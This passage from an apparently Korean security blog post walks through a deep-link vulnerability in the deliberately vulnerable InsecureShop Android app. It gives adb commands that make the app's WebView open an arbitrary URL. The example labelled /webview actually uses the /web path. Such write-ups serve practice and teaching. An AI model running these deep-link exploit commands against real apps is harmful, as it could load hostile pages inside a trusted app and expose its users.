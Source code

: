 ```Java
        }
    }


```

코드에 대한 해석은 주석을 확인하면 된다. <br>
결론적으로 insecureshop://com.insecureshop 딥링크를 실행시킬 때, uri Path를 /web or /webview로 주면 딥링크 취약점이 발생한다.

1) uri path가 /web인 경우, insecureshop://com.insecureshop/web?url=https://k-co-co.github.io/ 
```
adb shell am start -W -a android.intent.action.VIEW -d "insecureshop://com.insecureshop/web?url=https://k-co-co.github.io/"
```
<br>

2) uri path가 /webview인 경우, insecureshop://com.insecureshop/web?url=https://k-co-co.github.io/?data=insecureshopapp.com (endsWith Method)
```
adb shell am start -W -a android.intent.action.VIEW -d "insecureshop://com.insecureshop/web?url=https://k-co-co.github.io/?data=insecureshopapp.com"
```

<br><br>

위와 같이 호출할 경우, url 파라미터에 있는 URL을 WebView에서 실행하게 된다.
![Android Manifest 분석](/assets/images/source/250907_img/mobile.png)
블로그를 InsecureShop의 WebView로 띄운 모습이다.

<br>

나중에 더 추가해보도록 하자...

<br><br><br>

### ✅ 참고
<a href="https://developer.android.com/training/app-links?hl=ko">Android Developer, 다양한 유형의 링크 이해하기</a><br>
<a href="https://developer.android.com/guide/components/intents-filters?hl=ko#java">Android Developer, 인텐트 및 인텐트 필터</a>
